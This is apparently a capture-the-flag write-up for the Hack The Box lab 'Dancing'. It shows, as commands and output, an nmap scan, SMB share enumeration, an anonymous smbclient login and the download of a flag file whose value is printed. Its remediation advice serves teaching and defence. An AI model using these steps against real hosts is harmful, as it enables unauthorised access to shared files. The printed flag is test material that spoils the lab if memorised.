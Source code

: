 # HTB Starting Point Lab Walkthrough: Dancing (Windows Box)

## Executive Summary

- **Lab Objective**: Enumerate and exploit accessible SMB shares on the target machine to retrieve a flag, simulating basic network share reconnaissance.
- **Target IP**: 10.129.206.156
- **Key Findings**: Identified multiple SMB shares, including one accessible anonymously (`WorkShares`). This allowed directory traversal and retrieval of sensitive files without authentication.
- **Impact**: In a real-world scenario, this could lead to unauthorized data access, potentially exposing confidential information.
- **Recommendations**: Enforce authentication on all shares, restrict anonymous access, and regularly audit share permissions.
- **Completion Date**: July 3, 2025
- **Tools Used**: Nmap, smbclient (on Kali Linux)

## Methodology and Scope

This walkthrough follows a standard reconnaissance and exploitation process for the HTB Starting Point lab "Dancing." The scope was limited to port scanning, SMB share enumeration, and file access on the provided target IP. No advanced exploitation or privilege escalation was required.

Steps were performed in a controlled lab environment using default Kali tools. Assumptions: Target is a Windows machine running SMB services.

## Findings

### Finding 1: SMB Service Identification

- **Description**: SMB (Server Message Block) is a network file sharing protocol. It operates on port 445, commonly associated with the service name "microsoft-ds."
- **Severity**: Informational (baseline enumeration).
- **Steps to Reproduce**:
    1. Perform a targeted port scan using Nmap:
        
        ```bash
        nmap -sS -p 445 10.129.206.156
        ```
        
        Output:
        
        ```bash
        Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-03 19:49 EDT
        Nmap scan report for 10.129.206.156
        Host is up (1.9s latency).
        PORT    STATE SERVICE
        445/tcp open  microsoft-ds
        Nmap done: 1 IP address (1 host up) scanned in 2.33 seconds
        ```
        
- **Impact**: Confirms SMB is active, enabling further enumeration.
- **Evidence**: Nmap scan results above.
- **Remediation**: N/A (informational).

### Finding 2: SMB Share Enumeration

- **Description**: Using smbclient, listed available shares on the target. Four shares were identified: ADMIN$, C$, IPC$, and WorkShares. The WorkShares share allows anonymous access (no password required).
- **Severity**: Medium (unauthenticated access to shares).
- **Steps to Reproduce**:
    1. List shares with smbclient using the `-L` flag:
        
        ```bash
        smbclient -L 10.129.206.156
        ```
        
        Output:
        
        ```bash
        Password for [WORKGROUP\reaper]:
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
        Reconnecting with SMB1 for workgroup listing.
        do_connect: Connection to 10.129.206.156 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
        Unable to connect with SMB1 -- no workgroup available
        ```
        
- **Impact**: Anonymous share access could allow unauthorized users to browse and retrieve files, risking data exposure.
- **Evidence**: smbclient output above.
- **Remediation**: Disable anonymous access to shares; require authentication for all connections.

### Finding 3: File Retrieval from Anonymous Share

- **Description**: Connected to the WorkShares share without credentials and navigated directories to locate and download a flag file.
- **Severity**: High (successful data exfiltration).
- **Steps to Reproduce**:
    1. Connect to the share anonymously using `-N` (no password):
        
        ```bash
        smbclient //10.129.206.156/WorkShares -N
        ```
        
    2. List directories:
        
        ```bash
        smb: \> dir
          .                                   D        0  Mon Mar 29 04:22:01 2021
          ..                                  D        0  Mon Mar 29 04:22:01 2021
          Amy.J                               D        0  Mon Mar 29 05:08:24 2021
          James.P                             D        0  Thu Jun  3 04:38:03 2021
        
                     5114111 blocks of size 4096. 1750496 blocks available
        ```
        
    3. Navigate to subdirectories and download the target file:
        
        ```bash
        smb: \> cd James.P
        smb: \James.P\> dir
          .                                   D        0  Thu Jun  3 04:38:03 2021
          ..                                  D        0  Thu Jun  3 04:38:03 2021
          flag.txt                            A       32  Mon Mar 29 05:26:57 2021
        
                     5114111 blocks of size 4096. 1750496 blocks available
        smb: \James.P\> get flag.txt
        getting file \James.P\flag.txt of size 32 as flag.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
        ```
        
    4. Verify locally:
        
        ```bash
        ls
        flag.txt
        cat flag.txt
        5f61c10dffbc77a704d76016a22f1664
        ```
        
- **Impact**: Demonstrates full read access to sensitive files, equivalent to a data breach in production.
- **Evidence**: Command outputs and flag value above.
- **Remediation**: Remove unnecessary shares; apply least-privilege permissions; monitor for unauthorized access.

## Recommendations

- Implement strong authentication (e.g., NTLMv2 or Kerberos) for SMB.
- Use firewalls to restrict SMB to trusted networks.
- Regularly scan for open shares and misconfigurations using tools like smbmap or enum4linux.
- For labs like this, practice escalating to tools like Impacket for more advanced SMB interactions.

## Appendices

- **Raw Notes/Logs**: (Optional—attach full session logs if sharing.)
- **Screenshots**: (Add here if available, e.g., terminal captures.)